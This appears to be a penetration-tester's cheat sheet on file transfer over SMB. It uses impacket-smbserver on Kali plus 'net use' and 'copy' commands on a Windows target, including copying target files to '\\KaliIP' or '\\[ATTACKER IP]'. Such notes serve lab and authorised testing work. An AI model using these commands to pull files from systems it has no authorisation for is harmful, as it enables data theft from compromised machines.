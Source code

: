 # SMB

Serve:
```
python /usr/share/doc/python-impacket/examples/smbserver.py share-name root-dir
```



On the target, you can view the available shares on the SMB server with net view `\\ip-addr`.
To view the files available in the share, simply use dir `\\ip-addr\share-name`


To actually download a file, use `copy \\ip-addr\share-name\file out-file`













You can launch an SMB share on your Kali machine with impacket
```
impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support -username User -password [PASS]

impacket-smbserver [SHARE NAME] /usr/share/windows-binaries/

impacket-smbserver [SHARE NAME] [SHARE FOLDER] -smb2support
```


#### Example 1
```
# start a share in kali
impacket-smbserver myShare . -smb2support -username stephanie -password 'P@ssword!'

# Then mount this share on the windows machine with:
net use X: \\[IP]\[SHARE NAME]
net use m: \\[IP]\[SHARE NAME] /user:[USERNAME] [PASSWORD]
net use m: \\Kali_IP\test /user:kourosh kourosh

# to delete share
net use X: /delete

```

After that it's really easy because you can just copy/paste things from the windiws target and have it on your Kali.




#### Example 2 (may not work)
```
impacket-smbserver share /home/[USERNAME]/Desktop -smb2support


# On target machine open File Explorer an in the searchbar put:
\\[ATTACKER IP]


```












### Windows to Kali

```powershell
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```

